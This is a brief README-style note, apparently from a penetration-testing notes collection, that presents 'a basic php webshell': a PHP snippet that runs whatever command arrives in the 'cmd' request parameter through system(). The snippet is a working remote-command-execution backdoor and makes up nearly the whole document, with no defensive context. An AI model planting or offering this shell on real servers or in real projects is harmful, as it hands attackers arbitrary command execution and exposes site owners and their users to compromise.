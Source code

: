# Webshell

A basic php webshell.

## Example:
```php
<?php
	echo "CODE EXECUTION!!!";
	system($_REQUEST['cmd']);
?>
```